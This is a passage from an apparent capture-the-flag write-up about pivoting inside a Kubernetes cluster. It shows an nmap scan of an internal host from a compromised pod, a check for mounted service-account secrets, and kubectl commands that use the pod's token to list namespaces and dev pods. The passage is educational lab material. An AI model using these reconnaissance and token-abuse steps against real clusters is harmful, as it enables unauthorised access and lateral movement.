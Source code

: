 
## 172.17.0.8
```console
root@webapp-deployment-5d764566f4-h5zhw:~# ./nmap -n -v -p- 172.17.0.8  --min-rate 10000
Completed SYN Stealth Scan at 15:17, 7.12s elapsed (65535 total ports)
Nmap scan report for 172.17.0.8
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000023s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
8080/tcp open  http-alt
8181/tcp open  unknown
9153/tcp open  unknown
MAC Address: 02:42:AC:11:00:08 (Unknown)
```
# Kubernates Clusters
I had no ideas about Kubernates at the time so I read about them online, read couple of writeups from earlier challenges and watched an walkthrough for a tryhackme box which gave me a little idea what Kubernates is.
I found out that the secrets are mounted to each pod which contains credentials to make API calls.
## Checking if secrets are mounted on this container
```console
root@webapp-deployment-5d764566f4-h5zhw:~# mount | grep kube 
tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)
```

## Listing namespace
To contact to the API server, we need to use `kubectl` which was not present on the box. So, I downloaded the file on my local box and uploaded to the server.
```console
root@webapp-deployment-5d764566f4-h5zhw:/run/secrets/kubernetes.io/serviceaccount# kubectl get namespace --token=`cat token`
NAME              STATUS   AGE
default           Active   146d
dev               Active   145d
kube-node-lease   Active   146d
kube-public       Active   146d
kube-system       Active   146d
```
Except dev, all of the namespace listed are the default namespaces present on the kubernates.
## Listing Pods
We only have the permission to list the pod on the **dev** namespace. If we do not mention the namespace with `--namespace` flag, **default** namespace is selected by default.
```console
root@webapp-deployment-5d764566f4-h5zhw:/run/secrets/kubernetes.io/serviceaccount# kubectl get pods --token=`cat token` --namespace=dev        
NAME                                READY   STATUS    RESTARTS   AGE
devnode-deployment-cd86fb5c-6ms8d   1/1     Running   28         145d
devnode-deployment-cd86fb5c-mvrfz   1/1     Running   29         145d
devnode-deployment-cd86fb5c-qlxww   1/1     Running   29         145d
```
We have 3 pods running inside dev namespace.
